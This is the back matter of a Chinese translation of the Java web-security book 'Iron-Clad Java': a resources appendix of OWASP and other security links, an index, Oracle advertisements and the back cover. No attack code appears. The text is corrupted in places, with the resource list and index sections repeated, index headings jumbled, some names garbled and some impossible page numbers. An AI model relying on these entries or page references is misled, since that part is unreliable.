- Dave Wichers 在他的演讲《揭开基于 DOM 的 XSS 迷团》（Unraveling Some of the Mysteries Around DOM-Based XSS）中非常准确地讨论了描述跨站脚本时术语的重叠。他建议了一种新的 XSS 类型：客户端 XSS。

  <https://www.owasp.org/images/c/c5/Unraveling_some_Mysteries_around_DOM-based_XSS.pdf>

### 附录：资源

- DOM XSS Wiki 是关于基于 DOM 的 XSS（客户端 XSS）最全面的资源之一。

  <http://code.google.com/p/domxsswiki/wiki/FindingDOMXSS>

- UTF-7 XSS 速查表（UTF-7 XSS Cheat Sheet）是一份旧但有趣的 XSS 指南，展示了在 Web 页面强制支持 UTF-7 的特殊攻击。

  <http://openmia.hacker.jp/hasegawa/security/utf7cs.html>

- Erlend Oftedal 维护着在线 X-Frame-Options 测试，以验证你的浏览器对 X-Frame-Options 框架防护头部的支持情况。

  <http://erlend.oftedal.no/blog/tools/xframeoptions/>

- Ivan Ristic 维护维护良好的免费 HTTPS/SSL 在线配置验证服务是目前业内最好的。

  <https://ssllabs.com>

- CodeMagi 点击劫持防御（CodeMagi Clickjacking Defense）是一种纯 JavaScript 框架点击防护技术。

  <https://www.codemagi.com/codemagi-clickjacking-defense>

- Milton Smith 博客讨论了 Java 8 中重要的安全改进。

  <http://docs.oracle.com/javase/8/docs/technotes/guides/security/enhancements-8.html>

- 《SANS Institute 实现安全文件上传的 8 条基本规则》（SANS Institute 8 Basic Rules to Implement Secure File Uploads）博客文章是关于非常复杂的 Java 安全编码主题——文件上传安全性的比较合理的资源之一。

  <http://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads/>

- Mozilla AppSec/安全编码指南（Mozilla AppSec/Secure Coding Guidelines）是一份较旧但仍然安全的安全编码参考资料。

  <https://wiki.mozilla.org/WebAppSec/Secure_Coding_Guidelines#Uploads>

- OWASP 安全编码实践快速参考指南（OWASP Secure Coding Practices Quick Reference Guide）由 Keith Turpin 领导，包含了一份在构建自己的安全编码标准时需要考虑的清单要求。

  <https://www.owasp.org/index.php/OWASP_Secure_Coding_Practices_-_Quick_Reference_Guide>

- John Melton 拥有一些关于 Java 和 OWASP 十 的优秀资源。该特定资源涉及恶意文件执行。

  <http://www.jtmelton.com/2010/05/02/the-owasp-top-ten-and-esapi-part-4-malicious-file-execution/>

- Zane Lackey 做过几场关于应用层入侵检测的演讲，其中是《应用程序安全的有效方法》（Effective Approaches to Application Security）。

  <http://www.slideshare.net/zanelackey/effective-approaches-to-web-application-security/>

- 构建安全成熟度模型（Building Security In Maturity Model, BSIMM）旨在帮助你计划、构建和衡量软件安全倡议。

  <http://bsimm.com/>

- OWASP 软件保证成熟度模型（OWASP Software Assurance Maturity Model）是一个帮助组织做出软件安全决策的框架。

  <https://www.owasp.org/index.php/Category:Software_Assurance_Maturity_Model>

- SAFECode 是一个非营利组织，提供各种免费在线开发者培训课程。

  <https://training.safecode.org/>

- OWASP Apache ModSecurity 核心规则集（OWASP Apache ModSecurity Core Rule Set）是最流行的开源 Web 防火墙 Apache ModSecurity 的系列规则。

  <https://www.owasp.org/index.php/Category:ModSecurity_Core_Rule_Set>

## 索引

### A

- ABAC。基于属性的访问控制

- 关于本书，2

- 访问控制，56–79

- 反面模式，14–15

- 攻击方法，62–66

- 文件 I/O，202–207

- AntiSamy，103–104, 112

- 防病毒检查，209

- Apache Commons FileUpload 库，207, 215

- Apache Commons Logging 框架，268

- Apache `log4j` 日志库，227

- Apache ModSecurity 防火墙，263, 272

- Apache Shiro
  - 身份认证机制，54
  - 基于权限的访问控制，74–76
  - RBAC 角色断言示例，70
  - 安全编码库，266
  - 实现，256

- Apache Stub
  - 输入验证，18–19
  - RBAC 示例，70–71
  - 角色拦截器中心，70–71

- Apache Tomcat
  - CSRF 预防过滤器，127–128


# OWASP 速查表 (Cheat Sheets)

OWASP 速查表系列由应用程序安全专家小组编写了一系列简洁指南。

- OWASP 密码存储速查表（OWASP Password Storage Cheat Sheet）讨论了为了身份验证存储用户密码时的正确密码学方法。由 John Steven 编写。

https://www.owasp.org/index.php/Password_Storage_Cheat_Sheet

- OWASP XSS 预防速查表（OWASP XSS Prevention Cheat Sheet）是 OWASP 最流行的资源之一。由 Jeff Williams 编写。该指南帮助开发者阻止应用程序中的跨站脚本。

https://www.owasp.org/index.php/XSS_Cross_Site_Scripting/Prevention_Cheat_Sheet

- OWASP 忘记密码速查表（OWASP Forgot Password Cheat Sheet）是一份帮助开发者在 Web 应用程序构建高安全性“忘记密码”功能的指南。

https://www.owasp.org/index.php/Forgot_Password_Cheat_Sheet

- OWASP 会话管理速查表（OWASP Session Management Cheat Sheet）由 Raul Siles 编写，是一份全面的指南，讨论了在 Web 应用程序中使用和构建会话管理机制时的必要安全考虑。

https://www.owasp.org/index.php/Session_Management_Cheat_Sheet

- OWASP 身份认证速查表（OWASP Authentication Cheat Sheet）由 Eoin Keary 编写，涵盖了在 Web 应用程序中构建登录和认证层时最重要的安全考虑。

https://www.owasp.org/index.php/Authentication_Cheat_Sheet

- OWASP 查询参数化速查表（OWASP Query Parameterization Cheat Sheet）涵盖了查询参数化最重要的安全控制，将帮助你构建能够抵抗 SQL 注入的应用程序。

https://www.owasp.org/index.php/Query_Parameterization_Cheat_Sheet

270 铁甲 Java：构建安全的 Web 应用程序

# 标准

- OWASP 安全验证标准（OWASP Security Verification Standard）为验证 Web 应用程序的安全提供了基准。

https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project

- WASC Web 应用程序威胁分类（WASC Web Application Threat Classification）是一份与 Web 相关的安全威胁列表。

http://projects.webappsec.org/w/page/13246978/Threat_Classification

- OAuth 2.0 标准描述了最重要的授权标准之一。

http://tools.ietf.org/html/rfc6749

- NIST 特别出版物 800-162《基于属性的访问控制指南》（Special Publication 800-162, Guide to Attribute Based Access Control (ABAC)）描述了下一代访问控制标准和设计。

http://nipvpubs.nist.gov/nistpubs/specialpublications/NIST.sp.800-162.pdf

# 附加研究

- Apache Shiro 授权（访问控制）指南（Shiro Authorization (Access Control) Guide）

shiro.apache.org/authorization.html

- Spring 3.2 访问控制指南（Spring 3.2 Guide to Access Control）

http://docs.spring.io/spring-security/site/docs/3.2.x/reference/htmlsingle/#authorization

- 关于基于 DOM 的 XSS 的原始论文《DOM 跨站脚本或第三类 XSS》（DOM Based Cross Site Scripting or XSS of the Third Kind），作者为 Amit Klein。

www.webappsec.org/projects/articles/071105.html

- Dave Wichers 非常准确地讨论了描述跨站脚本时术语的重叠。他在他的演讲《揭开基于 DOM 的 XSS 迷团》（Unraveling Some of the Mysteries Around DOM-Based XSS）中建议了一种新的 XSS 类型：客户端 XSS。

https://www.owasp.org/images/c/c5/Unraveling_some_Mysteries_around_DOM-based_XSS.pdf

# 附录：资源 271

- DOM XSS Wiki 是关于基于 DOM 的 XSS（客户端 XSS）最全面的资源之一。

http://code.google.com/p/domxsswiki/wiki/FindingDOMXSS

- UTF-7 XSS 速查表是一份旧但有趣的 XSS 指南，展示了在 Web 页面上强制支持 UTF-7 的特殊攻击。

http://openmia.hacker.jp/hasegawa/security/utf7cs.html

- Erlend Oftedal 维护着在线 X-Frame-Options 测试，以验证你的浏览器对 X-Frame-Options 框架防护头部的支持情况。

http://erlend.oftedal.no/blog/tools/xframeoptions/

- Ivan Ristic 维护维护良好的免费 HTTPS/SSL 在线配置验证服务是目前业内最好的。

https://ssllabs.com

- CodeMagi 点击劫持防御（CodeMagi Clickjacking Defense）是一种纯 JavaScript 框架防护技术。

https://www.codemagi.com/codemagi-clickjacking-defense

- Milton Smith 博客讨论了 Java 8 中重要的安全改进。

http://docs.oracle.com/javase/8/docs/technotes/guides/security/enhancements-8.html

- 《SANS Institute 实现安全文件上传的 8 条基本规则》（SANS Institute 8 Basic Rules to Implement Secure File Uploads）博客文章是关于非常复杂的 Java 安全编码主题——文件上传安全的比较合理的资源之一。

http://software-security.sans.org/blog/2009/12/28/8-basic-rules-to-implement-secure-file-uploads/

- Mozilla AppSec/安全编码指南（Mozilla AppSec/Secure Coding Guidelines）是一份较旧但仍然安全的安全编码参考。

https://wiki.mozilla.org/WebAppSec/Secure_Coding_Guidelines#Uploads

- OWASP 安全编码实践快速参考指南（OWASP Secure Coding Practices Quick Reference Guide）由 Keith Turpin 领导，包含了一份在构建自己的安全编码标准时需要考虑的清单要求。

https://www.owasp.org/index.php/OWASP_Secure_Coding_Practices_-_Quick_Reference_Guide

- John Melton 拥有一些关于 Java 和 OWASP 十 的优秀资源。该特定资源涉及恶意文件执行。

www.jtmelton.com/2010/05/02/the-owasp-top-ten-and-esapi-part-4-malicious-file-execution/

- Zane Lackey 做过几场关于应用层入侵检测的演讲，其中是《应用程序安全的有效方法》（Effective Approaches to Application Security）。

www.slideshare.net/zanelackey/effective-approaches-to-web-application-security/

- 构建安全成熟度模型（Building Security In Maturity Model, BSIMM）旨在帮助你计划、构建和衡量软件安全倡议。

http://bsimm.com/

- OWASP 软件保证成熟度模型（OWASP Software Assurance Maturity Model）是一个帮助组织做出软件安全决策的框架。

https://www.owasp.org/index.php/Category:Software_Assurance_Maturity_Model

- SAFECode 是一个非营利组织，提供各种免费在线开发者培训课程。

https://training.safecode.org/

- OWASP Apache ModSecurity 核心规则集（OWASP Apache ModSecurity Core Rule Set）是最流行的开源 Web 防火墙 Apache ModSecurity 的系列规则。

https://www.owasp.org/index.php/Category:ModSecurity_Core_Rule_Set

# 索引

# A

- ABAC. 基于属性的访问控制

- 关于本书，2

- 访问控制，56–79

- 反面模式，14–15

- 攻击方法，62–66

- 文件 I/O，202–207

- AntiSamy，103–104, 112

- 防病毒检查，209

- Apache Commons FileUpload 库，207, 215

- Apache Commons Logging 框架，268

- Apache log4j 日志库，227

- Apache ModSecurity 防火墙，263, 272

- Apache Shiro

- 身份认证机制，54

- 基于权限的访问控制，74–76

- RBAC 角色断言示例，70

- 安全编码库，266

- 实现，256

- Apache Stub

- 输入验证，18–19

- RBAC 示例，70–71

- 角色拦截器中心，70–71

- Apache Tomcat

- CSRF 预防过滤器，127–128

- 端会话设置，34

- 同步令牌模式，126–128

- 附录类，227–228

- 应用程序生命周期控制，251–252

- 应用程序验证标准 (ASVS)，255–256, 270

- AppSensor 项目，239–241, 268

- 架构师，软件，247–248

- 归档文件，215–217

- 资产，网站，245

- Assolini, Fabio，121

- ASVS 错误处理与日志

- 要求，224

- 非对称加密，161

- 密码套，143

- 加密与签名，160–161

- 密码存储，40–42

- 随机数生成，175

# 274 铁甲 Java：构建安全的 Web 应用程序

## 索引

### Attacks (attacks)

访问控制, 61

认证, 33–35

自动化, 236–238

暴力破解, 39–48

CSRF, 116–133

日记, 39

DoS, 24, 215–216

文件上传, 207–216

动机, 245–246

结果, 246

覆盖, 210–215

密码, 38–40

重放, 49

SQL 注入, 180–194

用户名, 46–48

XSS, 82–113

基于属性的访问控制 (ABAC), 77–78

插图说明, 558

处理过程中的离散步骤, 77

NIST 指南, 76, 270

RBAC，对比, 67

属性 (attributes)

对象, 60

主体, 58

章节, 26–54

账户锁定和, 48–49

针对……的攻击, 33–35

认证与, 57

项目构建, 24–53

证书打印和, 158

凭证安全和, 22, 36–46

联邦或委托, 51–52

指南, 53

HTTPS 导入, 27–28

多因素, 24–55

新用户注册和, 24–25

OWASP 备题速查单表, 54, 269

“记住我”登录功能和, 49

敏感操作和, 31

会话管理和, 26–32

总结, 54

超时相关, 31–32

用户名采集和, 46–48

真实性, 27

授权, 16, 56, 57

参见 访问控制 (access control)

自动化攻击防御, 236–238

CSRF 令牌, 237

表单多态, 237–238

蜜罐令牌表单组件, 238

自动化注册, 25

意识文档, 268

黑名单输入验证, 14–15, 17, 94, 184–185

机器人注册, 25

BouncyCastle, 41–42, 256, 267

暴力破解攻击, 39–48

Brutus root, 48

BSIMM 研究, 252, 272

Burp Suite, 47, 48, 266

业务需求, 253–254

Butter, Eric, 33

## C

Cache-control 响应标头, 12–13

CAPTCHAs, 25, 130–131

集中式访问控制引擎, 68

集中式执行层, 66

证书和密钥管理, 149–156

证书颁发机构 (CA), 140, 154–156

证书链, 140–141

证书锁定, 158

证书签名请求 (CSRJ), 154

证书验证, 145–147

挑战-响应模式, 130–131

Cheat Sheet 系列, 269

checkServerTrusted() 方法, 148

checkValidation() 方法, 147

Chromium 项目, 140

密码套件, 142–145

签名代码, 151

使用规则, 143–144

密码块链模式 (CBC), 165

点击劫持 (clickjacking), 73, 132–136

CSRF 的共性, 134

针对……的防御, 134–136

工作原理, 133

客户端证书, 4

客户端超时, 131

close() 函数, 206

Code Pulse 项目, 268

CodeMagi ClickInjection, 136, 271

命令注入, 197–198

常见弱性枚举 (CWE), 222

潜在性, 7, 27

消费者防御, 246

内容安全策略 (CSP), 111

内容池化, 83–84

上下文访问控制, 74–76

上下文输出编码, 94–101

Cookie (cookies)

与认证会话和, 29–30


# 索引

## A

使用 Cookie 的 CSRF 攻击, 118

Cookie 中数据的危险, 36

双 Cookie 提交防御, 128–129, 130

确保……的安全属性, 35–36

使用 Cookie 进行会话管理, 118

凭证安全, 28, 36–46

忘记密码工作流和, 45–46

密码管理器和, 37–38

## B

Barnett, Ryan, 263

黑盒测试工具, 259–260

密码和, 37

密码存储和, 38–45

跨站请求伪造 (CSRF), 16, 116–133

与挑战-响应模式和, 130–131

点击劫持的共性, 134

与 CSRF 令牌和, 123–126

针对的防御技术, 123–133

双 Cookie 提交模式, 128–129–130

其解释性概述, 116–117

与家庭路由器和, 121–122

工作原理, 119–127

HTTP 引用标头和, 131

互联网 webeats 和, 121

POST vs. GET 请求和, 132–133

真实案例, 119–120

会话 ID 和, 125–126, 129–130

无状态防御, 128–130

存储的和, 121

关于……的总结, 136

与同步令牌模式和, 123–128

用于……的 Tomcat 过滤器, 127–128

未认证的, 122–123

与 XSS 漏洞和 (XSS), 82–113

跨站脚本 (CSS)

内容伪造和, 84

与 OWASP Java Encoder和, 100

## D

Darjani, Arshan, 257

危险的文件上传, 208–210

DAO 模式, 191–192

DAST 工具, 259–260

解密, 166–170

加密, 15, 166–170

请求, 62–63

敏感的, 138–77

存储在 Cookie 中, 306

不可信的, 2–5

拒绝服务 (DoS) 攻击

自动化攻击, 236–238

账户锁定和, 49

默认拒绝设计, 67

防止……的关闭句柄, 204

软件的开发者的角色, 249–250

针对……的技术安全需求, 254–256

灾难恢复, 224–246

文档, 268–272

意识, 268

基于 DOM 的 XSS, 90–102

关于……的 Wiki, 271

双 Cookie 提交模式, 128–130

配额负载和, 215–216

随机数生成, 124

对称的, 161

加密套件的, 144

密钥管理, 149–156

对称加密和, 17

加密套件, 142–145

错误处理, 231–233

错误信息, 232

可表达性, 69

可扩展访问控制语言 (XACML), 77–78

蜜罐令牌, 238

不可变性, 235–234

前向安全性, 144

蜜罐令牌组件, 238

变体, 237

漏洞扫描, 235

## G

Gauci, Sandro, 262

`generateSeed()` 方法, 175

通用错误页面, 232

Google Keychain

Google 安全设置, 122–123

Google 安全团队, 159

Graham, Robert, 248

组, 58

## F

故障开放漏洞, 66

联邦身份, 51–52

Ferguson, David, 44

文件内容验证, 210

文件扩展漏洞, 208–209

文件 I/O 设计, 202–207

文件路径注入, 202–203

文件上传安全, 207–218

归档文件, 216–217

危险内容和, 208–210

覆盖内容和, 210–215

攻击的攻击, 207–216

保存和存储文件, 217

关于……的总结, 218

文件名验证, 218

过滤器绕过技术, 17

过滤器

黑名单, 184–185

请求-,, 66–68

Findbugs 工具, 259

Firefox

代理服务器设置, 3, 4

会话劫持插件, 33

Tamper Data插件, 266

## H

HTML

内容欺骗, 83–84

使用 CSRF 攻击, 121

OWASP Encoder, 以及 88–99

清理, 102–104, 112, 256

HTML Sanitizer, 102–103, 104, 256, 267

HTTP

URL, 21–22

白名单, 17–18, 199

输出 (I/O), 详见文件 I/O 缺陷

不安全的直接对象引用 (Insecure Direct Object Reference), 89

实例级权限检查, 75

数据完整性, 7, 27

拦截代理, 3, 266

信任网站, 121

入侵检测, 233–241

访问控制违规, 235–236

自动攻击防御, 236–238

验证规则, 234–235

监控与日志记录, 233–236

无视攻击流量, 234

错误页面, 222–233

GET 请求, 8

HTTPS 连接, 7–8

POST 请求, 11

Referrer 头部, 9–10, 131

响应和响应头部, 11–14

检索列表, 132

安全考虑, 7–14

其中的不可信数据, 3–5

OWASP Awesome 项目, 239–241

入侵检测系统 (IDS), 234

`isValidFileupload` 方法, 214

HTTP 强制传输安全传输 (HSTS), 104

HTTPOnly Cookie 标记, 35

## I

Ichnowski, Jeff, 21, 96

身份 (identity)

访问控制和, 57

联邦的以及 SAML, 51–52

空闲超时, 31

ImageView 软件, 210

不可变格式组件, 234–235

冒充, 148

活动密钥, 163, 164

事件报告, 261

跨站脚本和, 82, 85–90–91

其模式, 104, 107, 109

相关的库资源, 111

OWASP Encoder, 以及 99–100

从中移除内联事件, 111

ServerSide Pages 标签库, 256

JDBCResultSet 类, 194

深度优先工具, 258

注入 (injection)

命令, 192–197, 198

文件路径, 202–203

形式, 198

空字节, 203–204

SQL, 180–194

总结, 199

XML 和 JSON, 195

内联脚本事件, 111

输入验证, 16–22

Apache Struts, 17–94

黑名单, 14–15, 17, 94

跨站脚本和, 94

数据库交互和, 190

输入长度, 20

数值类, 20

开放文本, 20–21

正则表达式和, 17, 18

软件安全和, 21, 22

查询 (query)

基于 DOM 的 XSS, 109–110

其编码器项目, 110, 112

s-htmlSanitizer, 93

## J

JSON

基于注入的, 195

OWASP清理器, 107–109, 256, 267

安全模式, 104–107

`JSON.parse` 函数, 105, 109

JSP 标签, 101

## K

Keory, Eoin, 54

密钥派生函数 (KDFs), 42

管理 (management)

证书管理和, 149–156

Keycloak 工具, 163–166, 172–174

安全考虑, 172–174

从中分离出加密, 174

Keyczar 工具包, 159-174, 256, 267

加密/解密, 166–170

密钥管理, 163–166, 172–174

凭据创建, 161–163

签名与验证, 170–172

密钥散哈希消息认证码 (HMAC)

详见 HMAC

## L

恶意软件检测, 209, 234

管理器 (managers)

密码, 37–38

项目, 248–249

映射诊断上下文 (MDCs), 229–230

Markers, Logbook, 228–229

最大 size设置, 216

MDS 哈希算法, 40

Melton, 219–272

MITRE 组织, 222

移动设备验证, 51

ModSecurity 防火墙, 263

监控计划, 260–261

黑客动机, 245–246

多因素身份认证, 50–51

多租户, 73–74

密钥集 (keysets)

在 Keyczar 中创建, 162–163

使用描述, 161

用密钥填充, 163–166

密钥库, 149, 150–151

`keytool`, 149–150, 154

Klein, Armin, 91, 270

Kubbek, Sebastian, 189

Lackey, Zane, 233–234, 272

LDAP 注入, 198

遗留代码, 189

输入长度, 20

## M

JavaScript

安全编码, 266–268

第三方, 257–258

`log4j` 库, 227

Logbook 框架, 227–230, 257

映射诊断上下文, 229–230

Markers, 228–229

日志记录 (Logging), 222–230

ESAPI, 226–227

框架, 222–235

重要性, 222, 261

从中排除, 224–225

包含在内, 223

Logbook 框架, 227–230

安全事件, 222–234

登录工作流, 26–32

匿名会话, 26–27

插图, 26

HTTP Cookie, 29–30

空闲超时, 31

HTTP 的重要性, 27–28

session ID, 30–31

退出按钮, 32

Long, Jeremy, 22, 96

Lord, Bob, 37

## N

美国标准与技术研究院 (NIST), 172

下一步方法, 175

非功能安全需求, 255

空字节注入, 198, 203–204

结果数量, 190

数值输入验证, 20

## O

OAuth 协议, 52–54, 270

对象引用, 217

对象映射, 192

对象和属性, 60

模糊性, 63

Oswald, Erik, 271

开放输入验证, 20–21

开放框架, 252

被攻击网站, 246

输出编码, 184

跨站脚本和, 94–101

资源, 112

覆盖攻击, 210–215

OWASP Awesome 项目, 103–104, 112

应用安全验证标准, 255–256, 270

项目, 239–241, 268

## P

ASVS 错误处理与日志记录

要求, 224

认证速表, 54, 269

IBM 和 Open SAML, 252

Java 依赖检查器, 258

过滤器绕过速表, 269

忘记密码速表, 46, 269

HTML Sanitizer 项目, 102–103, 112, 256, 267

不安全的直接对象引用, 90–101, 256, 267

文件 I/O 安全索引, 213

JSON Sanitizer 项目, 107–109, 256, 267

注入核心规则集, 263, 272

密码存储速表, 45, 269

查询参数化速表, 269

安全编码指南, 219, 251, 277

会话管理速表, 54, 269

软件保证成熟度模型, 207

十大响应控制文档, 268

十大风险文档, 268

XSS 防止速表, 269

ZAP 拦截代理, 3, 6, 276

Peterson, Gunnar, 77

证书钉钉, 156–158

`PKIXRevocation` 类, 176

策略 (policies)

访问控制, 59, 63–64

硬编码, 63

密码, 37

策略管理点 (PAP), 59

策略决策点 (PDP), 59, 63, 68

策略执行点 (PEP), 59, 66, 74

策略信息点 (PIP), 59, 199, 215

最小权限原则 (POLP), 56, 193

正向模式, 15, 16–69

POST 请求, 11, 132–133

Postel 原则, 107

预编译语句, 185, 186

主键, 163, 164–166

最小权限原则 (POLP), 56, 193

私钥, 161, 169

权限提升, 61

专业安全人员, 250–251

项目经理, 248–259

代理服务器

浏览器设置, 3, 4

拦截代理和, 3, 6, 7

公钥加密, 161–179

`PublicKeyHasher` 工具, 158

Pugh, Bill, 259

## R

正则表达式

输入验证和, 17, 18

ReDoS 漏洞和, 18

测试工具, 18

“记住我”登录功能, 49

重放攻击, 49

请求数据, 62–63

请求过滤器, 66–68

资源, 226–272

文档, 268–272

拦截代理, 266

安全编码库, 266–268

响应头, 12–14

Cache-control, 12–13

严格传输安全 (Strict Transport Security), 13, 140

X-Frame-Options, 13, 134–135

X-SS-Protection, 14

响应/恢复计划, 260–261

响应

挑战/响应, 130–131

HTTP/1.1, 12

反向暴力破解攻击, 49

证书吊销检查, 176

RRoist, 28, 27

基于角色的访问控制 (RBAC), 67–93

ABC 与, 61, 78

代码示例, 70–71

数据库模式建模, 71

其中的问题和局限性, 72–73

统一的 NIST 模型, 69

## S

SAST 工具, 258–259

保存的已文件, 217

Schmidt, Chris, 73

`scrypt` 函数, 41–42

安全编码库, 266–268

安全编码实践参考指南, 219, 255, 271–272

安全 Cookie 标记, 35

安全软件开发生命周期 (SSDLC), 244, 253–263

业务需求, 253–254

合规性标准, 253–254

实现安全控制, 256–258

监控和响应恢复计划, 260–261

技术安全控制, 254–256

测试安全控制, 258–260

第三方依赖, 257–258

Web 应用程序框架, 262–263

`Securerandom` 类, 175–176

安全

Cookie, 35–36

凭证, 28–46

下载, 218–219

错误处理, 231–233

事件日志, 223–224, 225–230

相关因素, 106

HTTP/2, 74

java 8, 176–177

质量, 6

SDLC, 253–263

敏感数据, 138–177

团队角色, 247–251

上传, 207–218

安全断言语言 (SAML), 51–52

安全控制

在开发中实现, 258–258

对实现进行测试, 258–260

安全质量, 6

专业安全控制, 250–251

项目经理, 248–249

QA 测试员, 250

安全与软件架构, 247–248

软件开发者, 249–250

安全测试员, 250–251

以安全为中心的日志, 226–230

ESAPI 用于, 226–227

Logback 使用, 227–230

敏感数据保护, 138–177

证书和密钥管理, 149–156

证书固定 (certificate pinning), 156–158

证书验证, 145–147

密码套件, 142–145

用于传输中的数据, 139–158

访问控制, 58, 59–73

专业安全控制, 250–251

项目经理, 248–249

QA 测试员, 250

安全与软件架构, 247–248

软件开发者, 249–250

根证书, 141

Routh, Jim, 262

RSA 密钥, 167–168

规则

访问控制, 59

密码套件, 143–144

盐 (Salt)

SafeRegex 工具, 18

盐值, 44

Saltzerome, 56

SAML (安全断言语言), 51–52

Samuel, Mike, 107

净化 (sanitization)

HTML, 102–104

JSON, 107–109

## T

Java 8 的改进, 176–177

随机数生成, 174

SSL 和 TLS 协议, 139–142

存储化数据, 154

摘要点, 177

需要的威胁, 138–139

信任管理器, 147–149


- 敏感操作, 165, 123
- 服务器名称标识 (SNI) 扩展, 176
- 服务器端超时, 31
- 服务器端托管数据, 27, 34
- 服务器会话劫持, 33–34
- `Session ID`, 30
- CSRF 令牌获取, 125–126, 129–130
- 记录加密哈希值, 223
- 服务器管理, 26–32
- 绝对会话和, 26–27
- `Cookie` 的用途, 29, 30–35
- 凭证安全和, 28–36
- 空闲超时和, 31
- 登录绑定和, 32
- OWASP 备忘表, 64, 259
- 敏感操作和, 31
- `Session ID` 和, 30
- 工作台图, 226
- 服务器劫持 (server riding), 116
- `setSeed()` 方法, 176
- 关机装置, 31
- `Shiro`、`Apache Struts`
- 签名, 161, 170–172
- 重要交易, 125
- 非对称加密用于, 161
- 从...解密加密, 160–161
- 密钥用途, 170–172
- Sails, Raul, 54
- 单点登录技术 (Single Sign On), 52
- Smith, Milton, 271
- SMS 验证, 51
- SNI 扩展, 176
- 软件架构, 247–248
- 软件保证成熟度模型 (SAMM), 272
- 软件开发生命周期。安全软件开发生命周期
- `Spring Security`
- 访问控制列表 (ACL), 70–77
- RBAC 规则元素, 70–180–194
- SQL 注入, 180–194
- 代码示例, 181–184
- DAO 模式和, 191–192
- 数据库权限, 193–194
- 输入验证和, 190
- 入侵检测和, 234
- 防止的无效方法, 184–185
- 遗留代码漏洞和, 189–190
- 结果数量验证和, 194
- 对象关系映射 (ORM) 和, 192
- 查询参数化和, 15, 185–187
- 减轻影响, 193–194
- 修复检查清单, 199
- 存储过程和, 184, 187–188
- 摘要点, 199
- 类型安全和, 190–191
- 变量参数化和,
- SDLC. 安全软件开发生命周期
- 配置检查, 228
- 开发, 139–140
- 协议版本, 142
- 不可信数据, 4
- SSL 证书, 238
- 堆栈跟踪, 231–232
- 合规性标准, 253, 270
- 无状态 CSRF 防, 128–130
- 静态分析测试 (AST), 258–259
- 静态分析, 180
- , John, 38
- 存储型 CSRF, 121
- 存储的数据, 159–174
- 存储的过程, 184, 188
- 存储型 XSS, 89
- 严格传输安全响应, 134
- `String.endsWith()` 方法, 204
- `Struts`、`Apache Struts`
- 主体, 272
- 对称加密, 161
- 技术安全控制, 254–256
- 测试安全控制, 258–260
- 第三方依赖, 257–258
- 白盒测试, 258–259
- 垂直权限提升, 61
- Z
- ZAP 拦截代理, 3, 6, 7, 266
- zip 炸, 216
- zip 文件,–216

## 282 铁甲 Java：构建安全的 Web 应用程序

- 未授权 CSRF 攻击, 122–123
- 统一的 NIST 模型, 69
- 不可信数据, 4
- 上传安全：见文件安全
- URL 编码, 100–101
- URL 重写, 29–31
- URL 验证, 21–22
- 用户界面无状态, 33
- 用户名采集, 46–48
- 用户
- 针对攻击, 46–48
- 访问控制, 57
- 忘记密码, 45–46
- 登录, 26–32
- 反射型 XSS, 85
- 存储型 XSS, 89
- 访问控制分组, 68
- 注册的, 24–25

## X

- X509证书, 147, 149
- XAML (扩展访问标记语言), 77–78
- X-Frame-Options 响应头, 13, 134–135
- X-XSS-Protection 响应头, 14
- 文件扩展名, 208–209, 218
- HTML, 102–104
- 输入, 16–22, 94
- 变量参数化, 191
- 验证
- 文件内容, 210, 218
- 结果数量, 190, 194
- 签名, 171–172
- `verifyPint` 方法, 158
- 垂直权限提升, 61

## XML

- 基于注入的, 195
- OWASP Java Encoder 和, 100
- XML 架构定义 (XSD), 195
- XSS。见跨站脚本

## Z

- ZAP 拦截代理, 3, 6, 7, 266
- zip 炸, 216
- zip 文件,–216

# 我们的技术，您的未来..

通过 Oracle 认证加速您的职业发展。

超过 150 万份认证证明了这些顶尖行业认可凭证的重要性，它们是脱颖而出的最佳方式之一。

并立于不败。

立即开始

ORACLE

认证计划

certification.oracle.com


# 硬件与软件

为协同工作而设计


# ORACLE

ACE 计划

# 需要帮助？需要咨询吗？

需要专业的意见吗？

保持联系

oracle.com/technetwork/oracleace

- @oraleaces
- @oracleace
- blogs.oracle.com/oracleace

# 您需要一位 Oracle ACE

Oracle 合作伙伴、开发者和客户寻求 Oracle ACE 和 Oracle ACE 主管深入的产品专业知识、系统和解决方案讨论，以及对各种数据中心实施的专业意见。

他们的信誉与 Oracle 产品和技术专家、社区爱好者和解决方案倡导者一样强大。

现在是进一步了解这一精英群体——或提名一位优秀的同事的绝佳时机。

有关 Oracle ACE 计划的更多信息，请访问：

oracle.com/technetwork/oracleace

# ORACLE

Copyright © 2012, Oracle 及其关联公司。保留所有权利。Oracle 和 Java 是 Oracle 及其/或关联公司的注册商标。其他名称可能是其各自所有者的商标。12302


# 通过 Oracle 出版集团接触超过 700,000 名 Oracle 客户

连接对您的业务最重要的受众

Oracle Magazine（Oracle 杂志）

全球最大的 IT 出版

发行量：550,000

受众：IT 经理、DBA、程序员和开发者

Profit（利润）

为企业级业务领袖提供商业洞察，

帮助他们利用 Oracle 技术构建更好的业务

发行量：100,000

受众：高管和业务部门经理

Java Magazine（Java 杂志）

Java 技术、Java 编程语言和基于 Java 应用的核心来源

发行量：125,000 且稳定增长

受众：企业和独立 Java 开发者、

程序员和架构师


CPSIA 信息可在 www.ICGtesting.com 获取

打印于美国

LY0GW06142571115

464221LV00010B/186/P


续订：(800) 471-0991

www.scccl.org

# 构建安全 Java Web 应用程序的可靠方法

使用本 Oracle Press 指南中描述的专家技术和开源库，开发、部署和维护安全的 Java 。《Iron-Clad Java》（铁甲 Java）介绍了从开始构建稳健且安全的应用程序所需的流程，并解释了如何消除现有的安全漏洞。包含了身份验证、访问控制、数据保护、攻击防护、错误处理等方面的最佳实践。通过使用这一权威资源提供的实用建议和真实案例，您将获得宝贵的安全软件工程技能。

- 建立安全的身份验证和会话管理流程
- 为多租户 Web 应用程序实现稳健的访问控制设计
- 防跨站脚本、跨站请求伪造和点击劫
- 保护存储或传输中的敏感数据 - 防止 SQL 注入和其他注入攻击
- 确保文件 IO 和上传的安全
- 使用有效的日志、错误处理和检测方法
- 遵循完整的安全软件开发周期

书中的代码示例可在 www.OraclePressBooks.com 下载。

完整的 Oracle Press 书目列表请访问 www.OraclePressBooks.com。

了解更多。更多。

MHPROFESSIONAL.COM

在 Twitter 上关注我们 @OraclePress

提供电子书版本

编程/Java
